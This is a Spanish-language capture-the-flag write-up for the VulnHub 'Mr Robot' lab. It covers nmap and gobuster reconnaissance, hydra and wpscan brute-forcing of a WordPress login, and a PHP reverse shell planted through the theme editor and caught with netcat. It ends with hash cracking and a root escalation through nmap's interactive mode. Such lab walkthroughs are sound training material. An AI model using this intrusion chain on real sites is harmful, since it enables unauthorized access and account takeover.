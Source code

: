 ```yaml
---
title: "MrRobot"
excerpt: "[Easy][Vulnhub] Writeup de MrRobot."
header:
  teaser: ""
tags:
  - vulnhub
  - easy
  - writeup
categories:
  - vulnhub
---
```



https://www.vulnhub.com/entry/mr-robot-1,151/

```bash
sudo nmap -vvv -sS -sV -O 192.168.1.0/24
```

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/mrrobot/1.png){: .align-center}

Saldrá una IP con el puerto 80 abierto

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/mrrobot/2.png){: .align-center}

Abrir navegador e ir a la IP, en este caso

```bash
192.168.1.132
```
![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/mrrobot/3.png){: .align-center}

Realizar un gobuster para ver los directorios ocultos en la web

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/mrrobot/4.png){: .align-center}

Saldrán varios directorios, entre ellos uno llamado /robots

Ir a `192.168.122.132/robots`

Saldrán varias cosas

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/mrrobot/5.png){: .align-center}

Entrar a `/fsociety.dic` y se descargará un diccionario

 Entrar a `/key-1-of-3.txt`

 ![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/mrrobot/6.png){: .align-center}

Ir a `192.168.122.132/wp-login.php`

## Usar hydra

### Encontrar un usuario con hydra

```bash
sudo hydra –t 64 –L fsociety.dic -p 1234 192.168.122.132 http-form-post "/wp-login:log=^USER^&pwd=^PASS^:invalid"
```

### Encontrar contraseña

```bash
sudo hydra –t 64 –l usuario_a_usar -P fsociety.dic 192.168.122.132 http-form-post "/wp-login:log=^USER^&pwd=^PASS^:invalid"
```
### Encontrar usuario y contraseña juntos

```bash
sudo hydra –t 64 –L fsociety.dic -P fsociety.dic 192.168.122.132 http-form-post "/wp-login:log=^USER^&pwd=^PASS^:invalid"
```
 ![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/mrrobot/7.png){: .align-center}

Encontrará el usuario Elliot, en sus diferentes variantes con mayúsculas y minúsculas.

```bash
sudo wpscan –url 192.168.122.132 -P fsociety.dic --usernames Elliot
```
![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/mrrobot/8.png){: .align-center}

 Encontrará una contraseña al final del proceso

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/mrrobot/9.png){: .align-center}

Entrar en el login con el usuario Elliot y la contraseña ER28-0652

```bash
192.168.122.132/wp-login.php
```
![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/mrrobot/10.png){: .align-center}

Ir al editor de temas

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/mrrobot/11.png){: .align-center}

Copiar `php-reverse-shell.php` de `/usr/share/webshells/php` a `~/Documentos`

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/mrrobot/12.png){: .align-center}

Cambiar el propietario del archivo con chown para poder editarlo

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/mrrobot/13.png){: .align-center}

Editarlo con nano para que lo IP sea la de nuestro equipo y el puerto que queramos poner como escucha

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/mrrobot/14.png){: .align-center}

Usar el comando `nc` para escuchar desde ese puerto

```bash
nc -nlvp 4444
```
![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/mrrobot/15.png){: .align-center}

Ingresar un enlace inválido en wordpress

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/mrrobot/16.png){: .align-center}

Se nos abrira una shell

Entrar al directorio de wordpress

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/mrrobot/17.png){: .align-center}

Leer el archivo `wp-config.php`

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/mrrobot/18.png){: .align-center}

Mirar los usuarios del equipo entrando al directorio `/home` y usando el comando

```bash
ls –l
```
![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/mrrobot/19.png){: .align-center}

Entrar al directorio de robot y ver el contenido

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/mrrobot/20.png){: .align-center}

Leer el archivo `password.raw-md5`

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/mrrobot/21.png){: .align-center}

Descifrar el hash desde la web de dcode.fr/md5-hash

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/mrrobot/22.png){: .align-center}

Usamos el siguiente comando en python

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/mrrobot/23.png){: .align-center}

Cambiar de usuario a robot

```bash
su robot
```

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/mrrobot/24.png){: .align-center}

Ir al home y ver el contenido

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/mrrobot/25.png){: .align-center}

Leer el archivo `key-2-of-3.txt`

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/mrrobot/26.png){: .align-center}

Entrar a nmap en modo interactivo

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/mrrobot/27.png){: .align-center}

Cambiar a shell

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/mrrobot/28.png){: .align-center}

Aparecerá con el usuario root

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/mrrobot/29.png){: .align-center}

Ir al directorio `/root`

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/mrrobot/30.png){: .align-center}

Leer los archivos

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/mrrobot/31.png){: .align-center}

## Keys


### Key1
![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/dobby_hogwarts/1.png){: .align-center}

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/mrrobot/32.png){: .align-center}

### Key2

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/mrrobot/33.png){: .align-center}

### Key3

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/mrrobot/34.png){: .align-center}
